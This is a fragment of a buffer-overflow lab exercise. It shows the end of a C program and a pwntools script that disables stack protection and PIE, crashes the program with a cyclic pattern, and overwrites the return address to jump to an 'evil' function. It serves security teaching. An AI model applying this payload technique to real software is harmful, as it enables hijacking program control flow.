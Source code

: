 ```c
{
	puts("I trust that you did not enter more than 127 chars ...");

	can_you_do_it();

	puts("Just stop it already!");

	return 0;
}

```

### b.

#### exploit_no_pie.py

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *
import os

#os.system("gcc -m32 -fno-stack-protector -fno-pie overflow.c")
os.system("gcc -m32 -no-pie -fno-stack-protector overflow_b.c")

# Set up pwntools for the correct architecture
context.update(arch='i386')
exe = './a.out'

##===========================================================
##                    EXPLOIT GOES HERE
##===========================================================

# Generate a cyclic pattern so that we can auto-find the offset
payload = cyclic(256)
print(payload)

# Run the process once so that it crashes
io = process(['./a.out', payload])

# Get the core dump
print("I ran into problems to generate corefile inside docker. hence, I manually executed the file in gdb with the paylaod printed above and manually created the corefile from within gdb.")
exit()
core = Coredump('./core.278')

# Our cyclic pattern should have been used as the crashing address
assert pack(core.eip) in payload

# Cool! Now let's just replace that value with the address of 'evil'
crash = ELF('./a.out')

target_addr = crash.symbols.evil + core.exe.address if crash.pie else crash.symbols.evil
payload = fit({
    cyclic_find(core.eip): target_addr
})
print("Address: ", hex(target_addr))

#payload = payload[:-2]+p32(core.eip)[:2]
# Get a shell!
print(payload)
```